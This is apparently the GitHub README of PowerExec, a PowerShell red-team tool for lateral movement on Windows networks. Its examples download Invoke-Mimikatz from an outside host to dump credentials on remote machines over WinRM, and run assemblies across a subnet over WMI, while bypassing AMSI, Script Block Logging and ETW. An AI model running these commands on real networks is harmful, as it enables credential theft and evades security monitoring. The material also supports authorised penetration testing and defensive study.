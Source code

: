 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
Get-PowerLoader                 -   build script block which safely loads PowerShell or .NET assembly
```

## Examples

Run a PowerShell script through WinRM using a download cradle while bypassing Antimalware Scan Interface (AMSI) and Script Block Logging (SBL):

```
PS C:\> Get-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM
```

Run a .NET assembly through WMI while bypassing AMSI and Event Tracing for Windows (ETW):

```
PS C:\> Get-PowerLoader -Type NetAsm -FilePath .\sample.exe -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Threads 10
```

## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html